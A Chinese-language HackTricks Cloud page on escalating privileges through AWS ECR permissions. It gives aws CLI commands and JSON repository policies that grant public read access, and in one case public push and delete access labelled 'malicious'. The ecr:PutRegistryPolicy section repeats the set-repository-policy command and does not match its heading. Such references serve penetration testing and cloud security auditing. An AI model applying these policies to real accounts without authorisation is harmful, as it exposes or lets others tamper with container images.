 # AWS - ECR Privesc

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

拥有 **`ecr:GetAuthorizationToken`** 和 **`ecr:BatchGetImage`** 权限的攻击者可以登录ECR并下载镜像。

有关如何下载镜像的更多信息：

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**潜在影响：** 通过拦截流量中的敏感信息间接提升权限。

### `ecr:GetAuthorizationToken`,`ecr:BatchCheckLayerAvailability`,`ecr:CompleteLayerUpload`,`ecr:InitiateLayerUpload`,`ecr:PutImage`,`ecr:UploadLayerPart`

拥有所有这些权限的攻击者**可以登录ECR并上传镜像**。这可以用来提升权限到其他使用这些镜像的环境。

要了解如何上传新镜像/更新镜像，请查看：

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

如前一节所述，但适用于公共仓库。

### `ecr:SetRepositoryPolicy`

拥有此权限的攻击者可以**更改** **仓库** **策略**，以授予自己（甚至所有人）**读/写访问权限**。\
例如，在此示例中，向所有人提供了读取权限。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
内容 `my-policy.json`：
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

与前一节类似，但适用于公共仓库。\
攻击者可以**修改 ECR 公共仓库的仓库策略**，以授予未经授权的公共访问权限或提升他们的权限。
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**潜在影响**：未经授权的公共访问ECR Public仓库，允许任何用户推送、拉取或删除镜像。

### `ecr:PutRegistryPolicy`

拥有此权限的攻击者可以**更改** **注册表策略**，以授予自己、他的账户（甚至是所有人）**读/写访问权限**。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
<details>

<summary><strong>从零开始学习AWS黑客攻击直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库**提交PR来分享您的黑客技巧**。

</details>
